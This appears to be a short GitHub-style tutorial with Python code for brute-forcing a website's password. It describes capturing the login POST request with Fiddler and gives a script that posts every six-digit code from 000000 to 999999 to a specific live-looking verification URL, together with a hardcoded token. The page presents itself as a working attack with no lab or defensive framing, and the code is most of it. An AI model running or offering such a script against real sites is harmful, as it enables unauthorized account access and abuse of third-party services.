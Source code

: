 # Main Steps
* Using Fiddler to capture the URL and th post pasckage when user logging in (Using whatever account names and passwords).
    <p align="center" >
        <img src="./Pictures/url.png", width='800'>
    </p>
    <p align="center" >
        <img src="./Pictures/fiddler.png", width='800'>
    </p>
* In python, fill the data in a form of the dictionary.
* Post the request

# Reference
* [Two ways to post requests using python.](https://blog.csdn.net/qq_29113041/article/details/79084544)  
* [python 暴力破解密码脚本](https://www.cnblogs.com/cocoajin/p/3991227.html)
* [输入密码经过本地加密怎么办？](https://zhuanlan.zhihu.com/p/57375111)

# Example Code
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib.request

def tryLogin(pwd):

    data = {
        '_token':'tLjSpPwe8E8XtGHuKbDHCwwu1T28l6P7',
        'password': pwd
    }

    r = urllib.request.urlopen(
            url ='http://1003.ykzm.sxehny.cn/verify/1003',
            data = urllib.parse.urlencode(data).encode(encoding='UTF8')
    )
    
    response = str(r.read(), encoding = "utf-8")
    isFind = False
    if "false" in response: # 这里是对应网站的密码验证逻辑
        print('登陆失败',pwd)
        isFind = False
    else:
        print('登陆成功','password = ',pwd)
        isFind = True   
    return isFind 


# 暴力破解
for i in range(1000000):
    input = str(i).zfill(6)
    tryLogin(input)
```
